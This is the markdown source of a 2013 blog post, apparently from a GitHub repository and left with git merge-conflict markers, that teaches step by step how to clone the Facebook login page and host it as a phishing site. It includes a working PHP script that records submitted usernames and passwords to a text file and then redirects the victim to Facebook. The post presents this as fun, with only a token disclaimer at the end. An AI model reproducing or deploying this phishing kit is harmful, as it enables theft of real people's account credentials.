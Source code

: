 ```yaml
---
layout: post
title: "PHISHING"
date: 2013-05-31 15:50
comments: true
categories: 
author: hitech_gosain
---
```

Before we actually start phishing………. here is a brief introduction about what phishing is…

Phishing is a scamming method used to get personal information.. .

i.e. the act of acquiring private or sensitive data from personal computers for use in fraudulent activities.
<<<<<<< HEAD


{% img http://www.hoax-slayer.com/images/phishing-scammer.jpg %}

Here are steps to have some fun:-

1. Open http://www.facebook.com on any net browser .

2. Right click on the blank space of the login page, click on ‘view page source’ option.

3. A screen filled with codes will appear.

4. Now press ctrl+a and copy the whole source to notepad.

5. Now press ctrl+f and search for word ‘action’ in the source.

6. Replace the selected text written in quotes with ‘post.php’  inthe above image .

action=”https://www.facebook.com/login.php?login_attempt=1&#8243;

After replacement :

action=”post.php”

7. Now save the file with ‘.html’ extension. For example : facebook.html

8. Copy paste the following script to notepad, edit the contents of 2nd line in the script

“header(‘Location:Website to phish’);”

Enter the name of the website you wish to phish , in our case http://www.facebook.com

After replacement: “header(‘Location: http://www.facebook.com);” , and save file with the name ‘post’ and .php extension.

?php
header (‘Location:Website to Phish’);
$handle = fopen(“usernames.txt”, “a”);
foreach($_POST as $variable => $value) {
   fwrite($handle, $variable);
   fwrite($handle, “=”);
   fwrite($handle, $value);
   fwrite($handle, “\r\n”);
}
fwrite($handle, “\r\n”);
fclose($handle);
exit;
?>

9. Now register to any free web hosting site. For example : www.my3gb.com

10. Upload the two files created above, one with .html extension(as per our example : facebook.html) and the other post.php

on your account on free web hosting site.

11. If you register on my3gb.com , to see your uploaded files click on ‘file manager’.

12. Now right click on file with .html extension(facebook.html) that you uploaded shortly, and select “copy link location”. Then paste the link on the address bar in new tab.

13. A page similar to facebook login page will load , but the difference will only be seen in the address bar.

ake a look at the address bar it says “neophytes.my3gb.com/facebook.html”, a genuine facebook page will have “www.facebook.com” in the address bar.

After victim enters his/her username and password , this is what he/she will see.

A new file usernames.txt is created automatically when someone logs on the phishing page you just created. Usernames.txt contains victim’s username and password. You can see the new file usernames.txt by refreshing the page.

P.S. – my3gb.com will delete your account within 24hrs after u try the above phishing….

So the above trick is just for you to see one aspect of Hacking….

Do not use it for malicious purposes.


=======
>>>>>>> 4e66200ba712ba37166da6f15033c61017e4fb1a
